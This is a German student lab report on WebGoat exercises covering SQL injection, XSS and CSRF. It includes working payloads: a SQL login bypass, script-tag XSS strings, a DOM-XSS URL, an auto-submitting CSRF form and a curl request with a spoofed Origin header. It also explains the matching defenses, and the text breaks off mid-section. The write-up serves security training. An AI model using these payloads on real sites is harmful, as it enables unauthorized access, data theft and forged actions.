# KN02 - WebGoat: Injection, XSS und CSRF

> [!info]
> Modul 183 - Applikationssicherheit implementieren  
> Umgebung: WebGoat auf AWS EC2, Port 8080  
> Live-Verifikation: 03.07.2026  
> Status dieser Doku: A-E dokumentiert, F noch offen

---

## Uebersicht

| Teil | Thema | Status | Nachweis |
|---|---|---:|---|
| A | WebGoat Setup | Erledigt | WebGoat auf EC2 erreichbar |
| B | SQL Injection | Erledigt | SQL Injection intro abgeschlossen, advanced teilweise |
| C | Cross-Site Scripting | Erledigt | WebGoat `CrossSiteScripting.lesson` und `CrossSiteScriptingStored.lesson` live `complete=true` |
| D | Cross-Site Request Forgery | Erledigt | WebGoat `CSRF.lesson` live `complete=true` |
| E | IDOR / Broken Access Control | Erledigt | WebGoat `IDOR.lesson` live `complete=true` |
| F | JWT / Broken Authentication | Offen | Noch nicht begonnen |

> [!warning]
> Die praktische WebGoat-Arbeit zu C und D war bereits erledigt, aber der Doku-/Push-Stand war unklar. Am 03.07.2026 wurde deshalb zuerst WebGoat live geprueft und danach diese KN02-Doku neu aufgebaut.

---

## Screenshots und Belege

| Datei | Bedeutung |
|---|---|
| `kn02-live-xss-complete.png` | Live-Verifikation der Reflected/DOM-XSS-Lektion |
| `kn02-live-stored-xss-complete.png` | Live-Verifikation der Stored-XSS-Lektion |
| `kn02-live-csrf-complete.png` | Live-Verifikation der CSRF-Lektion |
| `xss-stored-devtools-elements.png` | Stored-XSS Payload im DOM/DevTools |
| `xss-stored-success.png` | Stored-XSS erfolgreich abgeschlossen |
| `csrf-01-intro.png` | CSRF-Lektion geoeffnet |
| `csrf-02-get-request-theory.png` | CSRF GET-Theorie |
| `csrf-03-basic-get-task.png` | Basic CSRF GET-Aufgabe |
| `csrf-06-review-task.png` | Forged Review Aufgabe |
| `webgoat-lessonmenu-2026-07-03.json` | Maschinenlesbarer WebGoat Lesson-Status |
| `idor-02-login-tom-success.png` | IDOR-Testlogin als `tom` erfolgreich |
| `idor-03-hidden-attributes-success.png` | Versteckte Attribute `role` und `userId` gefunden |
| `idor-04-direct-profile-success.png` | Eigenes Profil per direkter Objekt-Referenz geoeffnet |
| `idor-put-curl-response.txt` | `curl -X PUT` Antwort fuer fremdes Profil |
| `idor-06-secure-references.png` | Abschlussseite zu sicheren Objekt-Referenzen |


*Abbildung 1: XSS-Lektion in WebGoat live geoeffnet.*


*Abbildung 2: Stored-XSS-Lektion in WebGoat live geoeffnet.*


*Abbildung 3: CSRF-Lektion in WebGoat live geoeffnet; die geloesten Aufgaben sind gruen markiert.*

---

## Teil A - WebGoat Setup

WebGoat wurde auf einer AWS EC2 Ubuntu-Instanz per Docker betrieben. Die Anwendung war ueber Port 8080 erreichbar:

```text
http://<EC2-PUBLIC-IP>:8080/WebGoat/login
```

Waehrend der Live-Pruefung am 03.07.2026 war WebGoat erreichbar und antwortete mit HTTP 200 auf:

```bash
curl -I http://localhost:8080/WebGoat/login
```

> [!note]
> Da die EC2-Instanz nur ca. 908 MB RAM hat, ist WebGoat vorher mehrfach mit Exit Code 137 abgestuerzt. Deshalb wurde Swap eingerichtet. Das stabilisiert Docker/WebGoat fuer die weiteren KN-Aufgaben.

---

## Teil B - SQL Injection

### Ziel

SQL Injection zeigt, was passiert, wenn Benutzereingaben ungefiltert in SQL-Abfragen eingebaut werden. Dadurch kann ein Angreifer Daten lesen, veraendern oder Datenbankstrukturen manipulieren.

### Durchgefuehrte Aufgaben

| Bereich | Ergebnis |
|---|---|
| SQL Injection intro | Alle 13 Seiten abgeschlossen |
| Login Bypass | Erfolgreich mit klassischem `' OR '1'='1`-Prinzip |
| DML / UPDATE | Datenintegritaet manipuliert |
| DDL / ALTER TABLE | Datenbankstruktur veraendert |
| CIA-Aufgaben | Confidentiality, Integrity und Availability behandelt |
| Advanced SQL Injection | UNION-based Injection geloest |
| Blind SQL Injection | Nach mehreren Versuchen bewusst uebersprungen |
| Quiz | Abgeschlossen |

### Beispiel: Login Bypass

Ein typischer unsicherer Login baut SQL ungefaehr so zusammen:

```sql
SELECT * FROM users
WHERE username = '<input>'
AND password = '<input>';
```

Mit einem Payload wie:

```sql
' OR '1'='1
```

wird aus der WHERE-Bedingung eine immer wahre Bedingung. Dadurch kann die Passwortpruefung umgangen werden.

### Beispiel: UNION-based SQL Injection

In der Advanced-SQL-Injection-Aufgabe wurde mit einer `UNION`-Abfrage gezeigt, dass Daten aus einer anderen Tabelle in das erwartete Resultat eingeschleust werden koennen. Dadurch konnten fremde Credentials aus einer Systemtabelle ausgelesen werden.

> [!warning]
> Die Blind-SQL-Injection-Aufgabe mit User `tom` wurde nach mehreren fehlgeschlagenen Payload-Versuchen bewusst uebersprungen. Das wird nicht verschwiegen, sondern als offener/uebersprungener Teil dokumentiert.

### CIA-Bezug

| Schutzziel | Verletzung durch SQL Injection |
|---|---|
| Confidentiality | Angreifer kann fremde Daten auslesen. |
| Integrity | Angreifer kann Daten veraendern, z.B. Rollen, Gehaelter oder TANs. |
| Availability | Angreifer kann Daten loeschen oder Tabellen zerstoeren. |

### Schutzmassnahmen

- Prepared Statements / Parameterized Queries
- Keine SQL-Strings per Konkatenation bauen
- Least Privilege fuer Datenbankbenutzer
- Serverseitige Input Validation
- Fehlerausgaben nicht direkt an Benutzer anzeigen
- Logging und Monitoring fuer auffaellige Query-Muster

---

## Teil C - Cross-Site Scripting (XSS)

> [!danger]
> XSS entsteht, wenn nicht vertrauenswuerdige Eingaben als HTML oder JavaScript interpretiert werden. Dadurch fuehrt der Browser Code aus, der eigentlich nur Text sein sollte.

### C1a - Reflected XSS

Bei Reflected XSS wird der Payload direkt aus der Anfrage in der Antwort wiedergegeben. In WebGoat wurde ein Eingabefeld getestet, das den eingegebenen Wert unsicher zurueck in die Seite schreibt.

Payload:

```html
<script>alert('XSS Test')</script>
```

Ergebnis: Der Browser fuehrte den Payload aus, WebGoat erkannte die Aufgabe als geloest.

### C1b - DOM-based XSS

DOM-based XSS wird clientseitig im Browser ausgeloest. Die Anwendung liest Daten aus der URL bzw. aus dem DOM und schreibt sie unsicher zurueck in die Seite.

Gefundene Route:

```text
start.mvc#test/
```

Payload:

```text
http://<EC2-IP>:8080/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.customjs.phoneHome()%3C%2Fscript%3E
```

Die interne Funktion wurde ausgefuehrt:

```js
webgoat.customjs.phoneHome()
```

Die Console lieferte eine dynamische `phoneHome Response`, die in WebGoat eingetragen wurde.

### C2 - Stored XSS

Stored XSS ist gefaehrlicher als Reflected XSS, weil der Payload serverseitig gespeichert wird und spaeter bei anderen Benutzern automatisch ausgefuehrt werden kann.

Payload im Kommentarfeld:

```html
<script>webgoat.customjs.phoneHome()</script>
```


*Abbildung 4: Stored-XSS Payload im gerenderten DOM.*


*Abbildung 5: WebGoat bestaetigt den korrekten Wert fuer Stored XSS.*

### Schriftliche Antworten zu XSS

#### 1. Unterschied Reflected XSS und Stored XSS

Reflected XSS wird direkt ueber eine Anfrage ausgeloest. Der Payload kommt zum Beispiel aus einem URL-Parameter oder Formularfeld und wird sofort in der Antwort reflektiert. Stored XSS wird dauerhaft auf dem Server gespeichert, zum Beispiel in einem Kommentar, und spaeter bei jedem Anzeigen wieder ausgefuehrt.

#### 2. Was ist DOM-based XSS?

DOM-based XSS entsteht im Browser durch clientseitiges JavaScript. Die Anwendung liest Daten aus der URL oder aus dem DOM und schreibt sie unsicher in die Seite zurueck. Der Server muss den Payload dabei nicht zwingend sehen.

#### 3. Warum hilft Output Encoding?

Output Encoding wandelt Sonderzeichen wie `<`, `>`, `"`, `'` und `&` in harmlose HTML-Entities um. Dadurch interpretiert der Browser die Eingabe als Text und nicht als HTML- oder JavaScript-Code.

#### 4. Wie hilft Content Security Policy?

Eine Content Security Policy (CSP) kann einschraenken, welche Scripts ausgefuehrt werden duerfen. Zum Beispiel kann Inline-JavaScript blockiert und nur JavaScript von vertrauenswuerdigen Quellen erlaubt werden. CSP ersetzt aber kein korrektes Encoding, sondern ist eine zusaetzliche Schutzschicht.

#### 5. OWASP-Kategorie

XSS gehoert im Kontext der OWASP Top 10 zu **A03:2021 - Injection**, weil nicht vertrauenswuerdige Eingaben als Code interpretiert werden.

---

## Teil D - Cross-Site Request Forgery (CSRF)

> [!danger]
> CSRF missbraucht das Vertrauen einer Webanwendung in den Browser eines eingeloggten Benutzers. Der Benutzer klickt oder laedt eine fremde Seite, und sein Browser sendet trotzdem authentifizierte Requests an die Zielanwendung.

### Live-Status

Der CSRF-Stand war im Handoff widerspruechlich. Deshalb wurde WebGoat am 03.07.2026 live geprueft.

Im WebGoat-Menue war:

```text
CSRF.lesson complete = true
```

Der Beleg liegt zusaetzlich in:

```text
webgoat-lessonmenu-2026-07-03.json
```


*Abbildung 6: Einstieg in die CSRF-Lektion.*


*Abbildung 7: Theorie zu GET-basierten CSRF-Angriffen.*


*Abbildung 8: Basic CSRF Aufgabe in WebGoat.*

### Aufgabe 4 - Forged Review

Bei der Forged-Review-Aufgabe wurde eine lokale HTML-Datei erstellt und ueber einen einfachen HTTP-Server ausgeliefert:

```bash
python3 -m http.server 9000
```

Beispielstruktur des Angriffs:

```html
<!doctype html>
<html lang="de">
<body>
  <h1>Loading pictures...</h1>

  <form id="csrfReview"
        action="http://<EC2-IP>:8080/WebGoat/csrf/review"
        method="POST">
    <input type="hidden" name="reviewText" value="This review was posted through a CSRF attack.">
    <input type="hidden" name="stars" value="5">
    <input type="hidden" name="validateReq" value="<Wert aus WebGoat>">
    <input type="submit" value="View my Pictures!">
  </form>

  <script>
    document.getElementById("csrfReview").submit();
  </script>
</body>
</html>
```

Der Browser war bereits in WebGoat eingeloggt. Beim Oeffnen der Angreifer-Seite wurde das Formular automatisch an WebGoat gesendet.


*Abbildung 9: Forged Review Aufgabe in WebGoat.*

### Aufgabe 7 - CSRF und Content-Type

Bei der JSON-/Content-Type-Aufgabe blockierten Browser-Varianten wegen CORS oder Cookie-Zugriff. Die funktionierende Loesung war ein Request direkt auf der EC2-Instanz mit gespooftem `Origin`-Header und gueltiger WebGoat-Session.

Vereinfachtes Schema:

```bash
curl -i -X POST \
  -H "Origin: http://evil.example.com" \
  -H "Content-Type: text/plain" \
  -b cookies.txt \
  --data '{"name":"WebGoat","email":"webgoat@webgoat.org","content":"WebGoat is the best!!"}' \
  http://localhost:8080/WebGoat/csrf/feedback/message
```

Ergebnis: WebGoat gab ein Flag zurueck, das erfolgreich in der Aufgabe eingereicht wurde.

### Aufgabe 8/9 - Abschluss

Der alte Chatstand war widerspruechlich: Einmal wurde Aufgabe 8 als geloest beschrieben, einmal als noch offen. Die Live-Pruefung am 03.07.2026 klaerte den Stand: Die gesamte CSRF-Lektion ist in WebGoat als abgeschlossen markiert.

> [!success]
> CSRF ist fuer KN02-D praktisch abgeschlossen. Fuer die Abgabe zaehlt jetzt, dass dieser Stand dokumentiert und gepusht ist.

### Schriftliche Antworten zu CSRF

#### 1. Was ist CSRF?

CSRF ist ein Angriff, bei dem ein Angreifer den Browser eines eingeloggten Benutzers dazu bringt, eine unerwuenschte Anfrage an eine vertraute Webanwendung zu senden. Die Anwendung sieht dabei die gueltigen Cookies des Benutzers und fuehrt die Aktion aus.

#### 2. Warum sind CSRF-Angriffe gefaehrlich?

